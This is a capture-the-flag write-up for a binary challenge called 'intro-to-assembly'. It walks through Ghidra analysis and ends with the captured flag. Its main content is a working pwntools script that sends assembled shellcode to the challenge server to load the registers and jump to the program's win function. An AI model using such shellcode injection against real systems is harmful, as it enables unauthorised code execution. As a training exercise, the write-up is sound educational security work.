 # intro-to-assembly

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/66ccd6db-b93c-4b3c-a4b1-d1a7863d2cd3)

# Solution
After decompiling the binary in Ghidra, we can see the `Main` function taking only 24 bytes from our user input:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8d5b4465-2d50-4ec9-b1ad-ac31cbf67b4d)

We also find a `win` function:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/3ac8a937-e463-4c30-839d-86e877a3fad1)

This win function has a condition that we need to meet where it expects us to input "Hello 1337 0". In the middle pane of Ghidra we can also get the starting address for the function:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0a2ce4c5-010a-4e85-9c09-4d3191f55e0e)

If we double click on `Hello` we can see it redirects us to its address:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5ce013a3-e530-4d22-adf2-d115d12ad7b9)

This means that it's taking this string from an address in the memory rather than from the string inputted by the user itself. We also notice we get an `illegal hardware instruction` error and the program crashes when inputting a simple string like "a". This gives us the idea that we can't jump to the win function via buffer overflow but we rather need to build our way there via shellcode.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/ae78ba44-9743-4092-8c66-f7a2cf7f22b4)

With that in mind, we can come up with this kind of a python script leveraging pwntools.

```python3
from pwn import *

# prog = process("./intro-to-assembly")
prog = remote('34.107.126.69', 30712)
elf = ELF("./intro-to-assembly")

win_addr = '0x4012bb' # taken from ghidra
context.arch = 'amd64'

param_1 = 0x402008 # address of Hello because it's not taking it as a string, it's taking its address.
param_2 = 0x539 # 1337 in hex

# Generate the shellcode
shellcode = asm(f'''
    mov rdi, {param_1}
    mov rsi, {param_2}
    xor rdx, rdx
    mov ecx, {win_addr}
    jmp rcx
''')

prog.clean()
prog.sendline(shellcode)
prog.interactive()
```

Shellcode explained:
In the context of a typical Linux x86_64 ELF binary, `rdi` is often used to pass the first argument to a function according to the x86_64 calling convention. `rsi` is the second argument. `rdx` is the third argument.. here we xor it with itself to get 0. Doing a "mov rdx, 0" made the payload too large and we couldn't get the /bin/sh to execute. This way generates a shorter payload. `ecx` refers to the ECX register, which is one of the general-purpose registers in the `x86` architecture. This had me stumped for a bit but we need to use the x86 because it's smaller and we need to keep the payload short. We then jump to `rcx` because while we can put values into x86 registers, we can't jump to them on a x64 binary.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/86823075-6ac9-4e1b-b09c-6b5d144f9187)

`CTF{926e420eeeeb6ac4890ddd46af5462d922e01307ef77d97d6799b167ed17e44f}`
